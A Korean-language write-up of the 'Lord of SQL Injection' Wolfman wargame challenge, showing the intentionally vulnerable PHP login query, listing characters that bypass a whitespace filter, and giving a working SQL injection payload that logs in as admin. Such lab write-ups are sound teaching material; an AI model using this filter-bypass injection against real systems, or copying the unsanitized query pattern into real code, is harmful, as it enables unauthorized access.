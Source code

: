 # Lord of SQL Injection No.5 - Wolfman
## 문제 출제 의도
1. ' '(공백)없이 쿼리를 조작하여 해결 할 수 있는지 확인.
## 소스 코드  
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
    $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("wolfman"); 
    highlight_file(__FILE__); 
?>
~~~
##분석 결론
+ 금지 문자, 문자열
    - GET방식으로 입력받은 pw값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
    - GET방식으로 받은 pw값에 공백이 있으면 "No whitespace ~_~"이 출력되고 문제풀이에 실패한다.
+ 풀이 성공 조건
    - 데이터베이스에서 받아온 id 값이 'admin'이면 문제 풀이에 성공한다.
## 문제 해결
1. Query문 추가
    - 공백을 우회하는 방법으로는 다음과 같은 값들이 있다.
        1. CR(Carriage Return) =  0x0D
        2. LF(Line Feed) = 0x0A
        3. Tab 이용 = 0x09
        4. 주석 이용 = /**/
        5. form feed = 0x0C
    - 따라서 다음과 유사한 방법으로 문제를 해결 할 수 있다.
    ~~~
    ?pw='%0Dor%0Did='admin'--%0D-
    ~~~